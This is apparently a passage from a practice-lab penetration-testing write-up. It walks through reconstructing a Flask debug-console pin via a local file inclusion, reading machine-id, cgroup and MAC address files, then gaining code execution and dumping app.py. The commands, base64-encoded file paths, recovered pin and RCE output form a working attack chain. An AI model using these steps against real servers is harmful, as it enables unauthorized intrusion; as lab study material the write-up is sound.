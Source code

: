 Recalling that this is a Flask application with an enabled (but locked) debugging console, let's research a potential bypass. Reading this blog post "https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/", we discover that we can recreate the Flask debug pin by exploiting the LFI vulnerability.

We should be able to do this with this script"https://gist.github.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42",
but first we need the contents of three files: /etc/machine-id (L2V0Yy9tYWNoaW5lLWlk), /proc/self/cgroup (L3Byb2Mvc2VsZi9jZ3JvdXA=), and /sys/class/net/INTERFACE_NAME/address.

machine-id: "00566233196142e9961b4ea12a2bdb29"
![[Pasted image 20240204164616.png]]

/proc/self/cgroup: "blog.service"
![[Pasted image 20240204164752.png]]

Finally, we need the MAC address of the network interface. Unfortunately, we do not know the name of the interface the target is using, but we can attempt a few more frequently-used names. Eventually, we detect ens160, resolving the file of interest to be /sys/class/net/ens160/address (L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=).
![[Pasted image 20240204165117.png]]
Navigating to that address, we find the MAC address to be 00:50:56:8a:fc:e8 or 345049332968 in decimal.

now that we have all we can get the pin options:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/reconstruction]
└─$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29' --uuid 345049332968
```
![[Pasted image 20240204170253.png]]

from our early nmap scan we know that the environment is python3.6 so we try this pin: "299-818-227" was correct and allows us to proceed. After unlocking the debugging console, we obtain RCE:
```python
>>> import os
>>> os.popen("id").read()
'uid=33(www-data) gid=33(www-data) groups=33(www-data)\n'
>>> 
```

Although we could obtain a reverse shell at this point, we can escalate in another way. Knowing this is a Flask application, let's review the main **app.py** file:
```python
>>> print(os.popen("cat app.py").read())
#!/usr/bin/python3
import datetime
import functools
import os
import re
import urllib
from base64 import b64decode
import getpass

import flask
from flask import (Flask, flash, Markup, redirect, render_template, request,
                   Response, session, url_for)
from markdown import markdown
from markdown.extensions.codehilite import CodeHiliteExtension
from markdown.extensions.extra import ExtraExtension
from micawber import bootstrap_basic, parse_html
from micawber.cache import Cache as OEmbedCache
from peewee import *
from playhouse.flask_utils import FlaskDB, get_object_or_404, object_list
from playhouse.sqlite_ext import *

```